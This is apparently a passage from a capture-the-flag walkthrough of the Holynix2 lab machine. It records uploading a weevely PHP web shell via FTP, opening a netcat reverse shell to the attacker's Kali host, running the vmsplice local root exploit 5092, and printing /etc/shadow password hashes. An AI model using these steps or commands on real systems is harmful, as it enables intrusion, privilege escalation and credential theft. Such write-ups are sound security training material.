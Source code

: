 We uploaded weevely to web directory of tmartin user via ftp\:
{% codeblock %}
ftp> put weevely.php
local: weevely.php remote: weevely.php
200 PORT command successful
150 Connecting to port 49625
226-File successfully transferred
226 0.000 seconds (measured here), 1.87 Mbytes per second
610 bytes sent in 0.00 secs (29785.2 kB/s)
{% endcodeblock %}

The kernel was vulnerable (vmsplice, 5092.c) and because weevely shell always
logged out root user, we used reverse shell and the writable /dev/shm
directory. 
{% codeblock %}
root@kali32:/usr/share/exploitdb/platforms/linux/local# nc -lvp 1337
listening on [any] 1337 ...

www-data@:/dev/shm $ :backdoor.reversetcp 192.168.1.34 -port 1337 -vector netcat-bsd
[backdoor.reversetcp] [!] Error: Binding socket [Errno 98] Address already in use

www-data@:/dev/shm $ :file.upload /usr/share/exploitdb/platforms/linux/local/5092 5092
{% endcodeblock %}

On our Kali Linux:
{% codeblock %}
connect to [192.168.1.34] from www.zincftp.com [192.168.1.88] 49100
/bin/sh: can't access tty; job control turned off
$ chmod +x 5092
$ ./5092
bash: no job control in this shell
root@holynix2:/dev/shm# cat /etc/shadow
root:$1$wMs1EClc$90lJ2ckB8jbibX.yrE7ac0:14949:0:99999:7:::
daemon:*:14949:0:99999:7:::
bin:*:14949:0:99999:7:::
sys:*:14949:0:99999:7:::
sync:*:14949:0:99999:7:::
games:*:14949:0:99999:7:::
man:*:14949:0:99999:7:::
lp:*:14949:0:99999:7:::
mail:*:14949:0:99999:7:::
news:*:14949:0:99999:7:::
uucp:*:14949:0:99999:7:::
proxy:*:14949:0:99999:7:::
www-data:*:14949:0:99999:7:::
backup:*:14949:0:99999:7:::
list:*:14949:0:99999:7:::
irc:*:14949:0:99999:7:::
gnats:*:14949:0:99999:7:::
nobody:*:14949:0:99999:7:::
libuuid:!:14949:0:99999:7:::
dhcp:*:14949:0:99999:7:::
syslog:*:14949:0:99999:7:::
klog:*:14949:0:99999:7:::
bind:*:14949:0:99999:7:::
sshd:*:14949:0:99999:7:::
mysql:!:14949:0:99999:7:::
lsanderson:$1$d1rHIv2m$301/2naFEYQbmjg/CJZbO0:14949:0:99999:7:::
cfinnerly:$1$7BPRHJcw$3W/9R.1BNqMJvvHWSa9jC/:14949:0:99999:7:::
ddonnovan:$1$.aIQOdgq$JnPLWS9ETJEmPvvMZFgqK.:14949:0:99999:7:::
skrymple:$1$nCenIeL7$3fq23HWXI1/cYX7q9FGVa0:14949:0:99999:7:::
amckinley:$1$cZn8zx7p$0oURMPJj4U9UM0XhmhQM71:14951:0:99999:7:::
cmahong:!:14949:0:99999:7:::
lnickerbacher:!:14949:0:99999:7:::
jstreet:!:14949:0:99999:7:::